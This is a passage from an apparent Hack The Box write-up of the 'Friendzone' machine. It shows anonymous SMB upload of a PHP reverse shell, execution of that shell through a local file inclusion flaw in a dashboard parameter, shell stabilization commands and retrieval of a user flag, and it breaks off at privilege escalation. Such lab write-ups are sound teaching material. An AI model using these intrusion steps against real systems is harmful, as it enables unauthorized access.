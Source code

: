 ![Failed reverse shell via file upload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Friendzone/failed_reverse_shell.png)

However, we recall that the Development share has both read and write permissions. Let us try to upload a reverse shell to the Development share.

```
┌──(kali㉿kali)-[~/Desktop/friendzone]
└─$ smbclient -U "" //10.10.10.123/Development
Enter WORKGROUP\'s password: 
Try "help" to get a list of possible commands.
smb: \> put reverse-shell.php
putting file reverse-shell.php as \reverse-shell.php (2.5 kb/s) (average 2.5 kb/s)
```

Next, we will then spawn the reverse shell by visiting https://administrator1.friendzone.red/dashboard.php?image_id=&pagename=/etc/Development/reverse-shell by exploiting the LFI vulnerability in the pagename parameter. However, this exploit only works if we remove the .php from the pagename parameter.

![Obtaining reverse shell](https://github.com/joelczk/writeups/blob/main/HTB/Images/Friendzone/reverseshell.png)

### Obtaining user flag
Before we obtain the user flag, let us first stabilize the reverse shell.

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$ export TERM=xterm
export TERM=xterm
www-data@FriendZone:/$ stty cols 132 rows 34
stty cols 132 rows 34
```

Finally, we will then be able to obtain the user flag.

```
www-data@FriendZone:/home/friend$ cat user.txt
cat user.txt
<Redacted user flag>
```
### Privilege Escalation to root
We are able to find mysql credentials in the file /var/www/mysql_data.conf. However, we realize that this server does not have mysql installed.
